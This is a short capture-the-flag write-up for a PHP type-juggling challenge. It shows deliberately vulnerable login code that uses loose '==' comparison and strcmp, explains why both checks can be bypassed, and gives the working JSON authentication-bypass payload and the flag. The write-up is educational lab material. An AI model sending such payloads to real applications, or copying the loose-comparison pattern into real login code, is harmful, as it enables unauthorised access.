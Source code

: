 ```yaml
---
layout: default
title: PHP-type-juggling
---
```


This is the vulnerable code:
```php
// check login and password (sha256)
if($auth['data']['login'] == $USER && !strcmp($auth['data']['password'], $PASSWORD_SHA256)){
        $return['status'] = "Access granted! The validation password is: $FLAG";
}
```

First, let's look on the loose comparison table:
![table](./images/PHP-type-juggling_table.png)

As you can see, `0` equals to `"php"`, so, this:
```php
$auth['data']['login'] == $USER
```
Can be bypassed by supplying `0` as `login`.

Second, we can see we use `strcmp`. As we can see from here https://avishaigonen123.github.io/CTF_writeups/websec.fr/level17.html, when strcmp gets empty array it returns null, which can helps us in this case, to bypass this check:
```php
!strcmp($auth['data']['password'], $PASSWORD_SHA256)
```

So, this will be our payload:
```
{"data":{"login":0,"password":[]}}
```

![FINAL](./images/PHP-type-juggling_FINAL.png)

**Flag:** **_`DontForgetPHPL00seComp4r1s0n`_**
